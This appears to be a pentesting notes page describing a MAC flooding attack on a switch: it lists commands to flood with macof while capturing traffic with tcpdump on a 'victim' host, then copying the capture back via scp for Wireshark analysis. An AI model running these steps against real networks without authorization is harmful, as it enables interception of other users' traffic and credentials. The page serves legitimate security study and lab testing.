 ```yaml
---
title: MAC Flooding Attack
desc: 
tags: [Flooding, MAC, Macof, Network, Scp, SSH, Tcpdump, Wireshark]
alts: []
render_with_liquid: false
---
```


## 1. Attack Flow

1. **Open Two SSH Sessions**

    Start the SSH session 1 in terminal 1.

    ```sh
    ssh victim@<target-ip>
    ```

    Start the SSH session 2 in terminal 2.

2. **Flood the Switch and Capturing the Traffic**

    In the session 1, start **tcpdump** and keep it running.

    ```sh
    tcpdump -A -i eth1 -w /tmp/tcpdump.pcap
    ```

    In the session 2, start flooding the switch (here "eth1" interface).

    ```sh
    macof -i eth1
    ```

    After about 30 seconds, stop **macof** and **tcpdump**.

3. **Investigate the Captured Traffic**

    In your local machine, transfer the dumped file named "/tmp/tcpdump.pcap" from the target machine to your local machine.

    ```sh
    scp victim@<target-ip>:/tmp/tcpdump.pcap .
    ```

    Investigate this file using Wireshark

    ```sh
    wireshark ./tcpdump.pcap
    ```
